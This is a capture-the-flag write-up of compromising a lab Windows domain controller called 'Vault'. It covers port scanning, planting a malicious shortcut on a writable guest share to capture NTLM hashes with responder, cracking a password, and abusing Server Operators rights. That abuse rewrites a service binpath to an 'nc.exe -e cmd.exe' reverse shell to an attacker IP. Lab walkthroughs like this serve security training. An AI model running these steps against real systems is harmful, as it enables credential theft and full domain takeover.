# Vault

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.172
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 15:05 +08
Nmap scan report for 192.168.240.172
Host is up (0.18s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49689/tcp open  unknown
49704/tcp open  unknown
```

Loads of ports.&#x20;

### Guest Shares

There were some shares that `smbmap` picked up on with `guest` credentials:

```
$ smbmap -u guest -p '' -H 192.168.240.172                  
[+] IP: 192.168.240.172:445     Name: 192.168.240.172                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DocumentsShare                                          READ, WRITE
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share
```

Within the DocumentsShare share, there was nothing within it:

```
$ smbclient -U guest //192.168.240.172/DocumentsShare 
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul  7 15:06:47 2023
  ..                                  D        0  Fri Jul  7 15:06:47 2023

                7706623 blocks of size 4096. 656179 blocks available
```

There was nothing else about this machine. This reminded me of a few HTB machines where we had to place a malicious file that would trigger a user to click on, which would send requests to our attacker machine and allow us to capture NTLM hashes on `responder`.&#x20;

There a few methods of creating such files, but I used this repository:

{% embed url="https://github.com/dievus/lnkbomb" %}

```
$ python3 lnkbomb.py -t \\192.168.240.172\DocumentsShare -a 192.168.45.216


██      ███    ██ ██   ██ ██████   ██████  ███    ███ ██████
██      ████   ██ ██  ██  ██   ██ ██    ██ ████  ████ ██   ██
██      ██ ██  ██ █████   ██████  ██    ██ ██ ████ ██ ██████
██      ██  ██ ██ ██  ██  ██   ██ ██    ██ ██  ██  ██ ██   ██
███████ ██   ████ ██   ██ ██████   ██████  ██      ██ ██████

                 Malicious Shortcut Generator               
                    A project by The Mayor                  

Malicious shortcut named fuxiylyrbv.url created in the \192.168.240.172DocumentsShare file share.

Recovery file fuxiylyrbv.recovery created in your current directory.

Run python3 lnkbomb.py -r fuxiylyrbv.recovery to remove the file from the target share.

$ mv '\192.168.240.172DocumentsShare\fuxiylyrbv.url' test.url
```

Afterwards, we can place this file within the share and start a `responder` instance, which would immediately capture a hash:

<figure><img src="../../../.gitbook/assets/image (680).png" alt=""><figcaption></figcaption></figure>

This can be cracked almost instantly:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
SecureHM         (anirudh)     
1g 0:00:00:03 DONE (2023-07-07 15:13) 0.2857g/s 3031Kp/s 3031Kc/s 3031KC/s Seifer@14..Schsutar90
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Then, we can `evil-winrm` in:

<figure><img src="../../../.gitbook/assets/image (551).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Server Operators --> DA

Our current user was part of the Server Operators group:

```
*Evil-WinRM* PS C:\Users\anirudh\Documents> net user anirudh
User name                    anirudh
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/19/2021 1:59:51 AM
Password expires             Never
Password changeable          11/20/2021 1:59:51 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/17/2023 2:43:54 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

Since we are part of this group, we can do loads of things like manipulate services and what not.&#x20;

```
*Evil-WinRM* PS C:\Users\anirudh\Documents> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"               True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                  True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2111.5-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2111.5-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc
```

We can abuse the VMTools service.

```
sc.exe config VMTools binpath="C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.216 21"
sc.exe stop VMTools
sc.exe start VMTools
```

A SYSTEM shell would spawn on a listener port:

<figure><img src="../../../.gitbook/assets/image (728).png" alt=""><figcaption></figcaption></figure>

Rooted!
